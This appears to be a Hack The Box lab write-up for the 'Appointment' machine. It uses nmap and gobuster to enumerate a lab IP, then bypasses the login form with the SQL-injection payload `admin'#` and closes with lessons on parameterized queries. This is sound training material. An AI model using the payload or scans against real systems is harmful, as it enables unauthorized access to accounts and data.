

# HTB “Appointment” SQL‑Injection Write‑Up

## 1. Introduction
**Objective:** Bypass the login form on the Appointment web app using SQL‑Injection to retrieve the flag.  
**Author:** keyfive5  
**Date:** 2025‑04‑20  

## 2. Lab Environment
- **Attacker VM:** Kali Linux (via HTB VPN)  
- **Target IP:** 10.129.99.212  
- **Tools:** nmap, gobuster, curl  

## 3. Enumeration

### 3.1 Nmap Scan
```bash
nmap -sC -sV 10.129.99.212 -o screenshots/nmap.png
```
**Result:** Apache httpd 2.4.38 on port 80

### 3.2 Directory Brute‑Force (Optional)
```bash
gobuster dir -u http://10.129.99.212 -w /usr/share/wordlists/dirb/common.txt -o screenshots/gobuster.png
```
**Result:** No sensitive directories found

## 4. Exploitation

### 4.1 SQL‑Injection Payload
- **Username:** `admin'#`  
- **Password:** anything  

This input closes the `username='…'` clause and comments out the password check.

### 4.2 Manual Exploit
1. Navigate to `http://10.129.99.212/login`  
2. Input `admin'#` as username and any password  
3. Submit → authenticated as **admin**, flag displayed  



## 5. Automation Script
See `scripts/login-sqli.sh` for reproduction:

```bash
bash scripts/login-sqli.sh 10.129.99.212
```

## 6. Results
- **Flag:** `flag{...}`

## 7. Lessons Learned
- Unsanitized inputs lead to trivial authentication bypass.  
- Always use parameterized queries or prepared statements.  
- Implement input validation and WAF protections.

## 8. References
- [OWASP Top 10 – Injection](https://owasp.org/www-project-top-ten/)  
- `man gobuster`  
- `man curl`  
